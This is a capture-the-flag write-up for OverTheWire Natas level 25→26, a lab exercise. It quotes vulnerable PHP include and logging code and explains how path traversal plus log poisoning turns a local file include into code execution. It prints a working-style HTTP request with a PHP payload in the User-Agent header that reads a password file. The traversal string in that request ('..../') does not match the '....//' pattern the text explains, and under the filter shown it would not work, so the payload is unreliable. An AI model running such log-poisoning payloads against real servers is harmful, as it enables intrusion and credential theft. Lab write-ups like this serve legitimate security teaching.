





# Natas — Level 25 → 26

**Category:** OverTheWire / Natas  
**Difficulty:** Hard  
**Date:** 2026-08-30

## Goal

A quote page with a language selector:

## Solution

The source showed the language picker was backed by a file include:

    function setLanguage(){
        if(array_key_exists("lang", $_REQUEST))
            if(safeinclude("language/" . $_REQUEST["lang"]))
                return 1;
        safeinclude("language/en");
    }

    function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename, "../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename = str_replace("../", "", $filename);
        }
        // dont let ppl steal our passwords
        if(strstr($filename, "natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
        if (file_exists($filename)) {
            include($filename);
            return 1;
        }
        return 0;
    }

    function logRequest($message){
        $log = "[" . date("d.m.Y H::i:s", time()) . "]";
        $log = $log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log = $log . " \"" . $message . "\"\n";
        $fd = fopen("/var/www/natas/natas25/logs/natas25_" . session_id() . ".log", "a");
        fwrite($fd, $log);
        fclose($fd);
    }

Two things stood out. `safeinclude()` only strips `"../"` *once* per pass, not recursively — a pattern like `....//` still contains a literal `"../"` inside it, so after the single replacement it collapses to `..//`, which still walks up a directory just fine. And `natas_webpass` is blacklisted in the filename, but there's no such check on `logRequest()`'s message or the User-Agent it logs — every request's `HTTP_USER_AGENT` header gets written, completely unsanitized, straight into a predictable log file at `/var/www/natas/natas25/logs/natas25_<session_id>.log`.

That's a classic log-poisoning setup: get attacker-controlled PHP into a file the server will write to, then `include()` that file through the traversal bug so PHP executes it. First captured the current session's cookie to know exactly which log file to target:

Then sent a single request that did both at once — a `lang` parameter built from repeated `....//` sequences to walk out of `language/` and down into the log directory, and a `User-Agent` header set to a PHP one-liner reading the next password:

    GET /?lang=..../..../..../..../..../..../..../..../..../var/www/natas/natas25/logs/natas25_<session>.log HTTP/1.1
    ...
    User-Agent: <?php echo file_get_contents("/etc/natas_webpass/natas26"); ?>
    Cookie: PHPSESSID=<session>

Since `logRequest()` writes the *current* request's own User-Agent into the session's log before the response is built, and the same request's `lang` parameter immediately included that exact log file back in, the log ended up containing a line with our raw PHP sitting right in the middle of it — and PHP's `include()` executes any `<?php ?>` block it finds, regardless of what file extension the path had. The response reflected the log line back with the injected code already evaluated:

    [30.08.2026 10::05:50] [REDACTED] "Directory traversal attempt! fixing request."

The `file_get_contents()` result landed exactly where the literal User-Agent string would have appeared — because that's exactly what it replaced once the file was executed as PHP instead of read as plain text.

## Result

    Password for natas26: [REDACTED]

## Key Takeaway

Blacklisting a filename pattern (`natas_webpass`) protects against reading that one thing directly, but it does nothing about a completely different, unrestricted input — here, an HTTP header — landing in a file the same include mechanism can later reach. Combined with a naive single-pass `"../"` filter (which `....//`-style patterns collapse right through), this turned an otherwise-blocked LFI into full code execution via classic log poisoning.
